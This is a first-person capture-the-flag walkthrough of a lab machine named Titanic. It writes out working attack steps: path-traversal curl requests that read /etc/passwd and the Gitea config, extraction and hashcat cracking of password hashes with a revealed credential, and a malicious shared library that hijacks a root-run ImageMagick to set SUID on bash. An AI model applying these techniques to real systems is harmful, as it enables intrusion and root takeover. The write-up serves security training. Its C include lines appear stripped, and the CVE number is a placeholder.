




Exploitation Summary
Exploitation process: The target machine ran a Flask web application vulnerable to Local File Inclusion (LFI) through the ticket download endpoint. By exploiting this vulnerability, I was able to read arbitrary files from the system, including the Gitea configuration and SQLite database.
After extracting user credentials from the database and cracking the PBKDF2 hash, I gained SSH access as the developer user. Privilege escalation was achieved by exploiting a vulnerable version of ImageMagick (7.1.1-35) that was being executed periodically by root through a cron job.
By crafting a malicious shared library (libxcb.so.1) and placing it in the working directory where ImageMagick was executed, I leveraged CVE-2024-XXXX to inject arbitrary commands, ultimately setting the SUID bit on /bin/bash to gain root access.
Technologies/Exploits: Local File Inclusion (LFI), Gitea configuration disclosure, SQLite database extraction, PBKDF2 hash cracking, ImageMagick shared library hijacking via environment variable exploitation.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and services on the target machine:

The scan reveals SSH on port 22 and an HTTP service on port 80. I add titanic.htb to my /etc/hosts file to resolve the hostname.
Web Enumeration
Running whatweb against the target reveals interesting technology stack information:
http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]Additionally, Wappalyzer indicates that the application uses Flask, which means I should be aware of potential Server-Side Template Injection (SSTI) vulnerabilities through Jinja2 templates.
Directory and Virtual Host Discovery
A gobuster directory scan finds two interesting routes:

However, a virtual host scan discovers something far more valuable:

I add dev.titanic.htb to my /etc/hosts file. Upon visiting this subdomain, I discover a Gitea instance running version 1.22.1. Most importantly, at http://dev.titanic.htb/explore/repos, I find the complete source code of the main application.
Source Code Analysis - LFI Discovery
Examining the source code, I identify a Local File Inclusion (LFI) vulnerability in the ticket download endpoint. This allows me to read arbitrary files from the filesystem using path traversal:
curl http://titanic.htb/download?ticket=../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd | grep bashThe response confirms the vulnerability:
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bashThis reveals two users with bash shells: root and developer.
Extracting Gitea Configuration
In the docker-config repository, I discover that Gitea's home directory is mapped to:
volumes:
- /home/developer/gitea/data:/dataUsing the LFI vulnerability, I can read the user flag, confirming that the web application has access to the developer user's home directory. I also verify that there are no SSH keys present in the .ssh directory.
I locate Gitea's configuration file and extract it:
curl http://titanic.htb/download?ticket=../../../../../../../../../../../../../../../../../../../../../../../../../home/developer/gitea/data/gitea/conf/app.iniThe configuration reveals important information:
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = rootThe database is SQLite3, and I know its exact path.
Database Extraction and Credential Cracking
I use the LFI to download the SQLite database file and extract user credentials:
sqlite> select name, passwd, salt, passwd_hash_algo from user;This returns two users with their password hashes:
Administrator
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
2d149e5fbd1b20cf31db3e3c6a28fc9b
pbkdf2$50000$50
developer
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
8bf3e3452b78544f8bee9400d6936d34
pbkdf2$50000$50The hashes are PBKDF2-SHA256 with 50,000 iterations. I format the developer user's hash for hashcat (mode 10900):
sha256:50000:8bf3e3452b78544f8bee9400d6936d34:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56Running hashcat successfully cracks the password:
hashcat -m 10900 -a 0 hashes.txt /usr/share/wordlists/rockyou.txtCredentials obtained: developer:25282528
SSH Access and User Flag
Using the cracked credentials, I connect via SSH and retrieve the user flag:
ssh developer@titanic.htbPrivilege Escalation - ImageMagick Exploitation
Internal Service Discovery
Running ss -tuln reveals an internal HTTP service on port 37995. After setting up local port forwarding and accessing it, I find an empty page with no interesting content or directories discovered by gobuster:

Automated Script Analysis
I discover an interesting script in /opt/scripts/identify_images.sh:
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.logThis script appears to be executed periodically. Although I cannot view root's processes with ps -faux, the metadata.log file's modification time constantly updates to the current time, indicating it's being modified at least once per minute, likely by a root cron job.
ImageMagick Vulnerability Research
Knowing that root executes this script periodically and uses /usr/bin/magick, I check the version:
/usr/bin/magick --versionVersion: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.orgI find a critical vulnerability: GHSA-8rxc-922v-phg8
Understanding the Vulnerability
This exploit leverages two environment variables that this version of ImageMagick either misconfigures or leaves empty. In this machine's case, the variables are empty when root executes the command, making exploitation possible.
The vulnerability works because when the environment variable is empty, ImageMagick defaults to using the current working directory. By placing a malicious input in this directory, I can inject arbitrary commands.
One exploitation method requires creating a delegates.xml file and passing it via command to magick, but since root's command doesn't include this, it's not viable.
The other method only requires compiling a small C program so that when it's in the current working directory, root will execute it. This works regardless of which ImageMagick command is used, making it perfect for this scenario.
Proof of Concept Test
I test the exploit by creating a simple payload that creates a file named "xd" to verify I can make root execute commands:
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include
#include
#include
__attribute__((constructor)) void init(){
system("touch xd");
exit(0);
}
EOF After waiting for the cron job to execute, I verify it works:
developer@titanic:/opt/app/static/assets/images$ ls -latotal 1284
drwxrwx--- 2 root developer 4096 Oct 15 12:44 .
drwxr-x--- 3 root developer 4096 Feb 7 2025 ..
-rw-r----- 1 root developer 291864 Feb 3 2025 entertainment.jpg
-rw-r----- 1 root developer 280854 Feb 3 2025 exquisite-dining.jpg
-rw-r----- 1 root developer 209762 Feb 3 2025 favicon.ico
-rw-r----- 1 root developer 232842 Feb 3 2025 home.jpg
-rw-r----- 1 root developer 280817 Feb 3 2025 luxury-cabins.jpg
-rw-r----- 1 root developer 0 Oct 15 12:44 metadata.log
-rw-r--r-- 1 root root 0 Oct 15 12:44 xdSuccess! The file xd was created by root, confirming code execution.
Final Privilege Escalation
I modify the exploit to set the SUID bit on /bin/bash, which will grant me root access:
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include
#include
#include
__attribute__((constructor)) void init(){
system("chmod u+s /bin/bash");
exit(0);
}
EOF After the cron job executes, I can spawn a root shell using bash's privileged mode:
developer@titanic:/opt/app/static/assets/images$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txtI successfully obtain root access and retrieve the root flag, completing the machine.